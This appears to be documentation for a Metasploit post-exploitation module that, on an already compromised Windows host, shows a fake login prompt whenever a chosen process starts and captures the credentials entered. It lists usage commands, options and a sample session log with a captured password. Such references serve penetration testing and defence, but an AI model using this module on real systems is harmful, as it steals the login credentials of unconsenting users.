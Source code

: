 
## Vulnerable Application

  This module is able to perform a phishing attack on the target by
  popping up a login prompt. When the user fills credentials in the
  login prompt, the credentials will be sent to the attacker. The
  module is able to monitor for new processes and popup a login prompt
  when a specific process is starting. Tested on Windows 7.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/phish_windows_credentials```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **DESCRIPTION**

  Message shown in the login prompt.

  **PROCESS**

  Prompt if a specific process is started by the target. (e.g. `calc.exe` or specify * for all processes.)

  **SESSION**

  The session to run this module on.

## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49164) at 2019-12-17 11:47:06 -0700

  msf > use post/windows/gather/phish_windows_credentials
  msf post(windows/gather/phish_windows_credentials) > set SESSION 1
    SESSION => 1
  msf5 post(windows/gather/phish_windows_credentials) > set PROCESS *
    PROCESS => *
  msf5 post(windows/gather/phish_windows_credentials) > exploit

  [+] PowerShell is installed.
  [*] Monitoring new processes.
  [*] [System Process] is already running. Waiting on new instances to start
  [*] System is already running. Waiting on new instances to start
  ...snip...
  [*] New process detected: 2744 notepad.exe
  [*] Killing the process and starting the popup script. Waiting on the user to fill in his credentials...
  [+]

  [+] UserName                   Domain                     Password
  --------                   ------                     --------
  MY                         MY-PC                      P@ssw0rd1!



  [*] Post module execution completed
  ```
